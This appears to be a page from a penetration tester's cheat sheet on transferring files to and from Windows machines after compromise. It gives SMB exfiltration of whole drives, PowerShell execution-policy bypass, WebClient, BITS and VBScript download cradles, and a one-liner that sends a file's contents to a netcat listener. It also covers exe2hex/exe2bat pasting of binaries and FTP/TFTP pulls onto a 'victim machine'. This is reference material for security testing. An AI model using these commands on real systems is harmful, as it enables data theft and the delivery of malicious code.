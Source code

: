 ```yaml
---
layout: default
title: File Transfers
---
```


# File Transfers
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Linux

---

## Windows
### SMB
Exfill files recursively
```powershell
xcopy /c /h /r /s /y <source> <smb destination>
```
- e.g. `C:\*`

### PowerShell
Running PowerShell commands/files
```powershell
powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -Command <command>
powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File <file>
```
- `-ExecutionPolicy` sets the default execution policy for the current session, but does not override the value set in the registry
- `-NoLogo` hides the copyright banner at startup
- `-NonInteractive` does not present an interactive prompt to the user
- `-NoProfile` does not load the Windows PowerShell profile

Paste into terminal to create `wget.ps1` script
```powershell
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >> wget.ps1
echo $url = "<url>" >> wget.ps1
echo $file = "<output file>" >> wget.ps1
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```

```powershell
powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

One-liners (first is same as above pasted script)
```powershell
(New-Object System.Net.WebClient).DownloadFile(<url>, <output>)         # Fast, but no progress bar
(New-Object System.Net.WebClient).DownloadFileAsync(<url>, <output>)    # As above, but asynchronous
Invoke-WebRequest -Uri <url> -OutFile <output>                          # Easy, progress bar, but very slow
Start-BitsTransfer -Source <url> -Destination <output> [-Asynchronous]  # Fastest, asynchronous, progress bar, but BITS may not be enabled
```

PowerShell one-liner to send file to NetCat
```powershell
$h="<host>";$p="<port>";$data=Get-Content -Path "<file>";$tcp=New-Object System.Net.Sockets.TcpClient($h,$p);$w=New-Object System.IO.StreamWriter($tcp).GetStream();foreach($l in $data){$w.WriteLine($l)};$w.Flush();$w.Close();$tcp.Close();
```


### VBScript
Paste into terminal to create `wget.vbs` script
```powershell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

```powershell
cscript wget.vbs <url> <output>
```

### Convert File to Base64
Base 64 Encoding
```powershell
certutil -encode <input> <output>
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("<UTF8 string>")) > <b64 output>
```

Base 64 Decoding
```powershell
certutil -decode <input> <output>
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<b64 string>")) > <UTF8 output>
```

### exe2hex (debug.exe or PowerShell)
```shell
python3 exe2hex.py -x <exe> [-b <bat output>] [-p <ps output>] [-cc]        # From file
cat <exe> | python3 exe2hex.py -s [-b <bat output>] [-p <ps output>] [-cc]  # From stdin
```
- Paste output into target terminal to create file on target machine
- `-b` output to bat file (uses `debug.exe`, only 32-bit OSes, no file size limit)
- `-p` output to ps file (supports 64-bit, is not a ps script, only calls ps at end)
- `-c` or `-cc` for compression level
- `-t` creates an Expect file to automate a Telnet session
- `-w` creates an Expect file to automate a WinEXE session
- When using over **Telnet** or **WinEXE**, 100+ lines can be unpredictable including incorrect ordering or character ommission:
    - Use [Expect](http://expect.sourceforge.net/); available on most distros `apt install expect`
    - Further details found here <https://github.com/g0tmi1k/exe2hex/blob/master/README.md>

### exe2bat (debug.exe)
- Only works on 32-bit systems and file must be at most 64kB
- If > 64kB, use a compression tool such as `upx`
```shell
upx --ultra-brute <file>
```

Convert .exe to series of echo commands using `exe2bat`, paste into target terminal to create file on target machine
```shell
wine exe2bat.exe <input exe> <output text file>  # Remove Wine if on Windows
```

### FTP
- Often enabled, but interactive so need to provide text file with FTP commands instead

Setup FTP server e.g. vsftpd, pureftpd or proftpd
```shell
vim /etc/vsftpd.conf  # anonymous_enable=YES
service vsftpd start  # Default anonymous directory is /srv/ftp or /var/ftp
```

Paste into victim terminal (anonymous : anonymous for anonymous login)
```powershell
echo open <ip> > ftp.txt
echo <username> >> ftp.txt
echo <password> >> ftp.txt
echo bin >> ftp.txt
echo GET <remote file> >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```

### TFTP
- Enabled by default up to Win 2003/XP
- UDP based, often blocked by corporate egress rules
- Non-interactive, easy to setup

```powershell
atftpd --daemon --port 69 <directory>  # Setup server on attacker's machine
tftp -i <ip> GET <remote file>  # On victim machine
```